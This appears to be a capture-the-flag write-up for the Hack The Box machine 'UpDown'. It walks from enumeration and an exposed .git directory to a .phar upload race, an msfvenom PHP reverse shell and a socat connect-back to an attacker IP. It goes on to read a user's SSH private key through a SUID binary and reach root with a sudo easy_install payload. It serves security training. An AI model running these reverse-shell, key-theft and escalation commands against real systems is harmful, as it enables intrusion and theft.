

# UpDown


## Enumeration

The [initial scan](scans/initial_scan.nmap) shows that the SSH and Apache HTTP services are running on the target.  The website looks like a simple application that allows you to check if your own site is up or not:


Notice the domain at the bottom of the page: *siteisup.htb*.  Let's add this to our local /etc/hosts file.  This makes me curious as to whether or not DNS is running on the target, but a [udp scan](scans/udp_scan.nmap) shows that it's not.

A little directory busting with ffuf turns up a directory called *dev*.  It also let's us know that this site is built with PHP by the presence of an index.php file.  Browsing to the /dev directory gets us a blank, white page and nothing else.  Further dir busting using our standard wordlist shows only that there's an index.php file in the /dev directory that, apparently, does nothing.  [Fuzzing for subdomains](scans/ffuf-subdomains.html) returns *dev.siteisup.htb* as a valid subdomain; however, when we try to access it, we are met with a *403 Forbidden* error.

[Further fuzzing](scans/ffuf-dirsearch-siteisup_dev.html) of the /dev directory, using a different wordlist, discovers an accessible *.git/* directory.  Browsing to siteisup.htb/dev/.git proves that it is, indeed, available to us.


Let's download the .git/ directory to our local machine and have a proper look around.

```bash
wget -r http://siteisup.htb/dev/.git
```


After downloading the .git/ directory and running `git log`, we find this interesting entry.  We can check the content of the commit using `git diff`:

```bash
git diff bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab 8812785e31c879261050e72e20f298ae8c43b565
```
(*NOTE: 8812785e31c879261050e72e20f298ae8c43b565 is the next commit after our target.*)


Based on this, it looks like we need to include a *Special-Dev: only4dev* header in our request in order to access the dev.siteisup.htb site.  We can do this by intercepting a request with Burp and adding the required header, like so:


After sending the request with the additional header, we get access to the site:


As a simple test, create a PHP file with the following content and try uploading it:

```php
<?php echo "Hello, World!"; ?>
```

Unfortunately, this is met with a *Extension not allowed!* error.  While looking through the git repo earlier, I noticed a file called *checker.php*.  Once again, we can use `git diff` to try and get a look at the code:

```bash
git diff 57af03ba60cdcfe443e92c33c188c6cecb70eb10 c8fcc4032487eaf637d41486eb150b7182ecd1f1
```


This tells us several things:

1. Uploaded files must be < 10kb in size.
2. No form of the .php extension (along with several others) is allowed.
3. The file is uploaded to a subdirectory in uploads/ created using the MD5 hash of the current time when the script runs.
4. The script expects a list of URLs, separated by newlines, which it checks one-by-one.
5. After all the checks are complete, the uploaded file is deleted.

Knowing this, it may be possible to create a reverse shell script with the .phar extension and upload it to the target.  But we'll need to include some method of slowing the checker application so that we actually have time to access the reverse shell before it's deleted.

To test these assumptions, create a test.phar file using the following script:

```bash
for i in {1..200}; do echo "http://google.com" >> test.phar; done; echo '<?php echo "Hello, World!"; ?>' >> test.phar
```

The first 200 http://google.com URLs will be used to keep the checker script busy while we navigate to the test.phar script in the uploads/ directory, being sure to add the *Special-Dev: only4dev* header to each request.  Now we go back to dev.siteisup.htb and upload test.phar.


Success!  The checker script was kept busy long enough for us to navigate to, and execute, our test script.

In order to gather as much information about the target as possible, let's make a copy of the test.phar script called *info.phar* and replace the call to echo "Hello, World!" with the following:

```php
<?php phpinfo(); ?>
```

After uploading and executing this script, we can see all the details about the PHP installation on the target.  The most frustrating thing we learn is that the functions we would normally use to get a reverse shell have been disabled:


## Initial Foothold

Luckily, `msfvenom` provides a pretty smart PHP reverse shell that checks for disabled functions:

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.67 LPORT=4444
```

Create a shell.phar file (including the first 200 google.com URLs) and copy the output from `msfvenom` at the bottom.  Fire up a netcat listener (`nc -lnvp 4444 -s 10.10.14.67`), upload the shell.phar file, and execute it from it's uploads/ subdirectory.


Voila!  We have a reverse shell.

Next, we look at /etc/passwd and see that there is a user called *developer* that has shell access.  Unfortunately, it's not possible to directly read the private key from /home/developer/.ssh/id_rsa.  There are, however, a couple of scripts in /home/developer/dev that we could use to our advantage, including one that has the SUID bit set:


The first script (*siteisup*) is a binary file.  As such, reading the contents doesn't really provide many clues as to what it does.  The Python script, on the other hand, looks promising:


This is good.  We know from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) that it should be possible to abuse the input() function to call system commands.  The problem is that we're using a volitile PHP reverse shell; so, when we try running `python siteisup_test.py`, we get no output and our shell essentially freezes.  The same thing happens when trying to upgrade the shell using the standard python method: `python -c 'import pty; pty.spawn("/bin/bash")'`.  Clearly, we'll have to find another way.

A while back, I came across a useful article that's all about upgrading simple shells, like ours, to fully interactive TTYs.  The second method discussed, [using socat](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat), is the one we'll use here.

Because `socat` isn't pre-installed on the target machine, and it doesn't have internet access, we'll first need to download a standalone binary to our local machine:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
```

Once we have that, spawn a Python HTTP server (`python -m http.server 8000`) and download `socat` to the target:

```bash
wget -q http://10.10.14.67:8000/socat -O /tmp/socat
```

Next, change the file permissions so that `socat` is executable.  Then, on our local machine, set up a listener:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4443
```
(NOTE: we use port 4443 for `socat` because netcat is already listening on port 4444.)

On the target, execute `socat` to connect back to our local machine:

```bash
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.67:4443
```

Just like that, we have a fully upgraded shell.  Now let's see if we can run system commands through the siteisup_test.py script we found earlier:


The output tells us that it is, indeed, possible to run system commands.  So let's try and get the developer account's private key next:


Since our shell is running with permissions for the www-data account, we still cannot read developer's private key.  All is not lost, though.  There' still the `siteisup` binary script, which is owned by developer and has the SUID bit set.  This is highly suspicious, so let's go ahead and see what it does.



It looks like this script probably calls siteisup_test.py, meaning we coud use it to retrieve developer's private key.

After saving the private key locally, and changing the file permissions to 600, we're able to SSH in to the target and retrieve the user flag.


## Privilege Escalation

As always, after gaining a foothold, first run `sudo -l` to see what the current account can do.  In this case, the developer account is allowed to run `/usr/local/bin/easy_intall` without a password.  `easy_install` is used for installing Python packages and, thanks to [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/#sudo), we know it's possible to use it to elevate our privileges:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```


Now all that's left is to grab the root flag from /root/root.txt.